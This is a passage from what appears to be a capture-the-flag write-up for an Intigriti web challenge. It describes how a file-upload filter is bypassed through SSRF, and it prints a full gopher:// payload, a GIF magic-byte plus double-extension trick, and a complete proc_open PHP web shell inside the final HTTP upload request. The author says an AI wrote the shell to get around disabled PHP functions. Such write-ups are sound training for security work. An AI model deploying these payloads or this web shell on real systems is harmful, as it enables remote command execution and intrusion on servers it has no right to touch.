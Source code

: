 But a new error appears when uploading the file: Invalid file format.

By my experience as pentester, I knew this was due to magic bytes, so I started looking for a magic byte that would work; if a bit more background is needed on what they are, take a look at this page.

[Magic Bytes](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html#magic-header-bytes)

For me, the easiest magic byte to test is the GIF one; it doesn’t have many odd characters, and if it works, building a payload and calculating the Content-Length is simpler, so I went straight for it.

![16.png]

The same process with CyberChef

[Encoded Payload](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDE1Nw0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQpHSUY4OWE8P3BocCBwaHBpbmZvKCk7ID8%2BDQotLS0tLS1ib3VuZGFyeS0t&ieol=CRLF&oeol=CRLF)

Final payload:

```
gopher://127.1:80/_POST%20%2Fupload%5Fshoppix%5Fimages%2Ephp%20HTTP%2F1%2E1%0D%0AHost%3A%20challenge%2D1025%2Eintigriti%2Eio%0D%0AContent%2DType%3A%20multipart%2Fform%2Ddata%3B%20boundary%3D%2D%2D%2D%2Dboundary%0D%0AContent%2DLength%3A%20157%0D%0A%0D%0A%2D%2D%2D%2D%2D%2Dboundary%0D%0AContent%2DDisposition%3A%20form%2Ddata%3B%20name%3D%22image%22%3B%20filename%3D%22s1x%2Ejpg%2Ephp%22%0D%0AContent%2DType%3A%20image%2Fjpeg%0D%0A%0D%0AGIF89a%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%0D%0A%2D%2D%2D%2D%2D%2Dboundary%2D%2D%0D%0A
```

If it worked, it will take a moment to load and a success message will appear on the screen. From the uploads directory (this is where we saw it would be stored), the file can be accessed.

![17.png]

I’ll save you some time: after this, I tried to upload a web shell, but it kept failing until I checked PHP’s disable_functions and saw that several functions were disabled.

![18.png]

How to make a web shell with this information? Easy: leverage AI to your advantage and ask it to build a web shell without using any of those functions, and this is what it produced.

```php
<?php if(function_exists('proc_open') && isset($_GET['c'])){   $d=[0=>["pipe","r"],1=>["pipe","w"],2=>["pipe","w"]];   $p=proc_open($_GET['c'],$d,$pipes);   if(is_resource($p)){fclose($pipes[0]); echo stream_get_contents($pipes[1]); fclose($pipes[1]); fclose($pipes[2]); proc_close($p);} } ?>
```

And this is the final request.

```http
POST /upload_shoppix_images.php HTTP/1.1
Host: challenge-1025.intigriti.io
Content-Type: multipart/form-data; boundary=----boundary
Content-Length: 430

------boundary
Content-Disposition: form-data; name="image"; filename="s1x.jpg.php"
Content-Type: image/jpeg

GIF89a<?php if(function_exists('proc_open') && isset($_GET['c'])){   $d=[0=>["pipe","r"],1=>["pipe","w"],2=>["pipe","w"]];   $p=proc_open($_GET['c'],$d,$pipes);   if(is_resource($p)){fclose($pipes[0]); echo stream_get_contents($pipes[1]); fclose($pipes[1]); fclose($pipes[2]); proc_close($p);} } ?>
------boundary--
```